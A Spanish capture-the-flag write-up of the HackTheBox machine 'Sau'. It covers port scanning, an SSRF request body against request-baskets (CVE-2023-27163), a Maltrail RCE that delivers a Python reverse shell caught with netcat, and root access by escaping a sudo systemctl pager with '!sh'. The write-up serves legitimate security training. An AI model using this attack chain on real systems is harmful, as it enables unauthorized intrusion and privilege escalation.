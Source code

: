 ```yaml
---
title: SAU
published: 2024-05-26
description: 'Writeup de la maquina SAU de HackTheBox'
image: ''
tags: [nmap,command injection,SSRF]
category: 'HackTheBox'
draft: false 
---
```

# Descripción
* **Nivel:** Fácil.
* **Temas a tratar:** Enumeracion,  SSRF, Command Injection. 
* **OS:** Linux.
* **Plataforma:** HackTheBox.
* **Fecha de retiro:** 11/02/2023.
* **IP victima:** 10.10.11.224
* **IP atacante:** 10.10.14.36
___
## Enumeración
Empezamos enumerando los puertos bajo el protocolo TCP abiertos con nmap.
```bash
sudo nmap -p- -sS --min-rate 5000 -vv 10.10.11.224 -oN ports 
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.93 seconds
           Raw packets sent: 67814 (2.984MB) | Rcvd: 67790 (2.712MB)
```
En este caso, encontramos puertos con el estado de _filtrado (filtered)_. Esto puede deberse a que solo estén disponibles dentro de la red interna de la máquina, ya que pueden estar protegidos por algún _Firewall_ u otro sistema de protección de acceso a la red. Descartamos estos puertos de momento y continuamos con un escaneo hacia los que están en estado de _abierto (open)_.
- `22: Referente a una conexión ssh`
- `55555: De momento no me suena este puerto, así que puede que sea un servicio con el puerto cambiado`

``` bash
sudo nmap -p22,55555 -sS -sV -oN scan 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.53s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=5/13%Time=6642EB23%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Tue,\x2014\x20May\
SF:x202024\x2004:40:04\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
...
```
El puerto 22 no tiene una versión vulnerable para realizar enumeración de usuarios, así que solo nos queda el puerto 5555 y los puertos filtrados. El resultado que nos devuelve Nmap no identifica qué servicio está corriendo, pero vemos que está recibiendo información por el protocolo HTTP, lo cual puede ser un indicio de un sitio web. Veamos qué nos muestra nuestro navegador:
![Request](Request-Baskets.png)
Ahora tenemos el sitio existente, y en la parte inferior tenemos información sobre el sitio: _request-baskets_ y la versión _1.2.1_. Busquemos si existe alguna vulnerabilidad sobre esta versión. Para esto suelo utilizar el buscador de Google o [Sploitus](https://sploitus.com/).
En este caso encontramos un CVE asociado con esta versión, _CVE-2023-27163_. Verificando la vulnerabilidad en la plataforma del [NIST](https://nvd.nist.gov/vuln/detail/CVE-2023-27163), vemos que este CVE está asociado a un Server-Side Request Forgery (SSRF).
## Server-Side Request Forgery
Esta es una vulnerabilidad que permite a un atacante poder realizar solicitudes HTTP a través de una funcionalidad vulnerable del lado del servidor.
 Esto puede derivar a un acceso no autorizado a recursos en red interna que pueden ser vulnerables.
	*Un fallo típico de empresas es tener algún servicio vulnerable corriendo en su red interna, bajo la premisa de que como este servicio no se encuentra expuesto a internet, no hay necesidad de parchearlo.*

![SSRF](SSRF.png)
*Esta vulnerabilidad puede escalarse a muchas más implicaciones y peligros. Para esto, recomiendo leer el siguiente artículo del [OWASP](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery) sobre esta vulnerabilidad.*
## Prueba de concepto
Anteriormente, en la etapa de enumeración, encontramos 2 puertos filtrados. El más importante a simple vista es el del puerto 80 (puerto comúnmente utilizado para sitios web). Ya tenemos a dónde queremos apuntar, ahora veamos cómo se aplica este SSRF.
En el artículo del [NIST](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) mencionado anteriormente, encontramos un enlace externo sobre cómo realizar esta explotación: [request-baskets SSRF details](https://notes.sjtu.edu.cn/s/MUUhEymt7). El redactor del artículo utiliza la herramienta _Postman_, pero para peticiones web prefiero utilizar la herramienta [Insomnia](https://insomnia.rest/) (esto es por simple cuestión de gustos, incluso pueden utilizar Burpsuite para esto).
El articulo nos indica que se realiza una petición *HTTP* de tipo *POST* hacia la dirección */api/baskets/{name}* del sitio, enviándole en el cuerpo de la petición la siguiente información en formato *JSON*:
```JavaScript
{
  "forward_url": "http://127.0.0.1:80/test",
  "proxy_response": false,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```
Para recibir el sitio interno en el puerto *80* solamente retiramos solamente el texto */test* ya que no conocemos si existe alguna dirección dentro del sitio con ese nombre.
	*Si no funciona, cambiamos el parametro "proxy_response" a true*.
Al final tenemos así nuestra petición lista para enviar.
![POC](baskets-Poc.png)
En el articulo de este CVE menciona que ahora hay que entrar a la URL que se mando en este caso */poc* (URL completa http://10.10.11.224:55555/poc).
Entrando a la URL en la parte inferior nos encontramos el nombre de la aplicación y la versión:
* Powered by Maltrail (v0.53)
Busquemos si existe alguna vulnerabilidad para esta versión de Maltrail.
Busquemos si existe alguna vulnerabilidad para esta versión de Maltrail. Encontramos un exploit en Github que proporciona un RCE (Remote Command Execution). Analizando el código escrito en Python, vemos que inyecta una reverse shell en base64 a través de una petición HTTP. Esta reverse shell se aprovecha de la existencia de Python en el sistema para permitirnos realizar la conexión con la máquina víctima (voy a optar por utilizar la herramienta RevShells).
![RevShell](Reverse-Shell.png)
Adjuntamos la reverse shell al SSRF y al RCE encontrado en Github, nos ponemos en escucha con NetCat en el puerto 9001 (en mi caso el seleccionado):
![Insomnia](Insomnia-Rev.png)
![NetcatRev](Rev-Shell1.png)
Ahora ajustemos la shell a una interactiva para poder trabajar de manera mas cómoda:
```bash
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  sudo nc -lvnp 9001
> tty raw -echo; fg
[1]  + continued  sudo nc -lvnp 9001

puma@sau:/opt/maltrail$ 
puma@sau:/opt/maltrail$ export TERM=xterm
puma@sau:/opt/maltrail$ cd 
puma@sau:~$ ls
user.txt
```
## Escalada de privilegios
Ya que estamos como usuario, veamos cómo escalar los privilegios. En mi caso, tengo la costumbre de ver si tenemos algún permiso de ejecución como sudo:
```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Muy bien tenemos *systemctl* veamos en [GTFOBins](https://gtfobins.github.io/) si existe algo de sudo:
![GTFObin](GTFObins-Systemctl.png)
Listo existe pero en nuestro caso solo podemos utilizarlo para ver el estado del servicio *trail.service* probemos si funciona igual con el comando:
```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2024-05-26 23:49:01 UTC; 44min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 895 (python3)
      Tasks: 10 (limit: 4662)
     Memory: 24.6M
     CGroup: /system.slice/trail.service
             ├─ 895 /usr/bin/python3 server.py
             ├─1160 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1166 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1170 sh
             ├─1171 python3 -c import socket,subprocess,os;s=socket.socket(sock>
             ├─1172 /bin/bash
             ├─1190 sudo /usr/bin/systemctl status trail.service
             ├─1191 /usr/bin/systemctl status trail.service
             └─1192 pager

May 26 23:49:01 sau systemd[1]: Started Maltrail. Server of malicious traffic d>
May 27 00:29:59 sau sudo[1186]:     puma : TTY=pts/0 ; PWD=/home/puma ; USER=ro>
May 27 00:33:02 sau sudo[1187]: pam_unix(sudo:auth): authentication failure; lo>
May 27 00:33:09 sau sudo[1187]:     puma : command not allowed ; TTY=pts/0 ; PW>
!sh
# whoami
root
```
___
### Happy Hacking!
